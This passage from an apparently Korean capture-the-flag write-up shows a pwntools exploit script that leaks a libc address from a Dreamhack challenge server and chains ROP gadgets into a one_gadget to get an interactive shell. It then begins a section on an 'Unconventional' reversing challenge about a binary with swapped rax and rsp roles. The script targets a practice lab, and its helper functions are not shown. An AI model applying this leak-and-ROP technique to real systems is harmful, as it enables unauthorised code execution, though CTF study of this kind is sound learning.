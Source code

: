 ```python

def out():
    log.info(f'out()')
    p.sendline(b'-1')

while 1:
    # p = e.process()
    p= remote('host1.dreamhack.games', 14359)

    echo(b'1'*80)
    p.recvline()

    read(37)
    try:base = int(struct.pack(">q",int(p.recvline())).hex(),16)
    except EOFError:
        p.close()
        continue
    if base==0:
        p.close()
        continue
    base -= libc.symbols['__libc_start_main'] + 0xf3
    if base&0xFF!=0:
        p.close()
        continue

    print(hex(base))
    rdx_r12 = 0x0000000000119241 + base
    rsi = 0x000000000002604f + base
    oneshot = 0xe3d29 + base

    write(3, rdx_r12)
    write(4, 0)
    write(5, 0)
    write(6, rsi)
    write(7, 0)
    write(8, oneshot)

    re()

    p.interactive()
    break
```

## F. Unconventional - Reversing

rax와 rsp의 역할이 바뀐 평행세계의 바이너리를 컨셉으로 한 문제이다.

rax를 통해 push, pop하는 과정과 함수를 호출하는 과정이 얼핏 생각하면 당연하지만 참신하고 재미있게 느껴졌다.

일단 바이너리를 분석해보면 크기가 크지 않기 때문에\
어렵지 않게 어떠한 루틴을 갖고 동작하는지 알 수 있었다.

